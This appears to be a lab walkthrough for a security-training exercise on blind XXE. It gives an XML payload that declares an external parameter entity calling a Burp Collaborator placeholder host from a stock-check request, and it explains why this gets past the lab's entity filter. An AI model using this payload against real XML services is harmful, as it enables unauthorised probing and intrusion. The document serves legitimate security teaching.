






# Lab: Blind XXE with out-of-band interaction via XML parameter entities

This stock-check lab parses XML but blocks requests containing regular external entities and does not show unexpected values. The objective is to use a **parameter entity** to trigger a DNS and HTTP interaction with Burp Collaborator.

!!! note "Use the lab's permitted OAST service"
    The Academy firewall blocks arbitrary external systems. Use the default public Burp Collaborator server supplied by the lab environment.

## 1. Capture the baseline request

Open a product, run **Check stock**, and send the request to Repeater.





## 2. Declare a parameter entity

Generate a unique Collaborator payload and place it in a parameter entity inside the DTD:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "http://COLLABORATOR-SUBDOMAIN/">
    %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

Unlike `&xxe;`, the `%xxe;` reference is expanded while the DTD is being parsed.



## 3. Send and poll Collaborator

Send the request, then poll the Collaborator client for the unique token.








## Why this bypass works

The lab filters ordinary external entities in document content, but still permits external parameter entities in the DTD. The parser therefore makes the outbound request before processing the stock-check elements.
